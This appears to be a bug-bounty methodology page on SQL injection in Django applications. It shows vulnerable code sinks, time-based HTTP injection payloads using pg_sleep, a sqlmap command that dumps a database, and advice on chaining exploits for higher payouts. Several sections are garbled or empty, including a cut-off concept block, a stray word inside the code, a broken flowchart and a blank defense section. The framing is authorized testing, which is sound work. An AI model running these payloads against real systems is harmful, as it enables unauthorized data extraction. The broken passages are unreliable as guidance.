

# Django SQL Injection

## When to Use
- When auditing or penetration testing a web application built on the Django framework (often identifiable by specific session cookies, admin panels, or error pages).
- To exploit areas where developers have strayed from the safe, built-in ORM features and opted for raw SQL execution or complex, unsafe query annotations.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Understanding Django ORM Limitations

```text
# Concept: ```

### Phase 2: Identifying Sinks (Code Review / Black Box)

```python
# Sink 1: The `.extra()` method VULNERABLE tastefully order_by = request.GET.get('order_by')
users = User.objects.extra(order_by=[order_by])

# Sink 2: RawSQL VULNERABLE from django.db.models.expressions import RawSQL
search = request.GET.get('search')
products = Product.objects.annotate(val=RawSQL(f"select count(*) from app_product where name = '{search}'", []))

# Sink 3: from django.db import connection
def custom_query(request):
    user_input = request.GET.get('username')
    with connection.cursor() as cursor:
        cursor.execute("SELECT * FROM users WHERE username = '%s'" % user_input) # VULNERABLE ```

### Phase 3: Exploitation

```http
# GET /products?order_by=-id%3B%20SELECT%20pg_sleep(10)-- HTTP/1.1
Host: django-app.local

# GET /search?search=' OR 1=1; SELECT pg_sleep(5);-- HTTP/1.1
```

### Phase 4: Data Exfiltration (Time-Based)

```bash
# sqlmap -u "http://target.com/products?order_by=id" -p order_by --technique=T --dbms=postgresql --dump
```

#### Decision Point 🔀
```mermaid
flowchart TD
    A[Analyze Request ] --> B{ORMs Bypsassed ]}
    B -->|Yes| C[Test Error ]
    B -->|No| D[Test Raw ]
    C --> E[Exploit ]
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **Strict ORM Usage**: **Input Validation**: Key Concepts
| Concept | Description |
|---------|-------------|
| Django ORM | |
| `.extra()` | |


## Output Format
```
Django Sql Injection — Assessment Report
============================================================
Target: [Target identifier]
Assessor: [Operator name]
Date: [Assessment date]
Scope: [Authorized scope]
MITRE ATT&CK: [Relevant technique IDs]

Findings Summary:
  [Finding 1]: [Severity] — [Brief description]
  [Finding 2]: [Severity] — [Brief description]

Detailed Results:
  Phase 1: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

  Phase 2: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

Risk Rating: [Critical/High/Medium/Low/Informational]
Recommendations:
  1. [Immediate remediation step]
  2. [Long-term hardening measure]
  3. [Monitoring/detection improvement]
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (SQL Injection)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **Security Company (HackerOne)** | $6,400 | (Undisclosed) | Critical SQLi on cloud subdomain — full query manipulation | 2023 |
| **Django (IBB)** | $4,263 | (Undisclosed) | CVE-2024-53908: SQLi in `HasKey` lookup on Oracle databases | 2024 |
| **Django (IBB)** | $4,263 | (Undisclosed) | CVE-2024-42005: SQLi in `QuerySet.values()` with JSONField column aliases | 2024 |
| **HackerOne avg** | ~$1,074 | (Estimated ~1,213 reports in 2025) | Various SQLi techniques across all programs | 2025 |

**Key Lesson**: Django framework-level SQLi bugs (CVE-2024-53908, CVE-2024-42005) prove that
even "secure" frameworks have injection points — especially in ORM edge cases like `HasKey` 
lookups on Oracle or `JSONField` column aliases. These are NOT generic `' OR 1=1--` payloads.

**What separates $6.4K from $500:**
- $6.4K: Demonstrated full data extraction, showed the schema, proved RCE path
- $500: Boolean-based blind SQLi with no data extraction demonstrated
- **Always extract at least one sensitive record and show the exploitation path**

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- Django Documentation: [Security in Django - SQL Injection](https://docs.djangoproject.com/en/stable/topics/security/#sql-injection-protection)
- PortSwigger: [SQL Injection](https://portswigger.net/web-security/sql-injection)
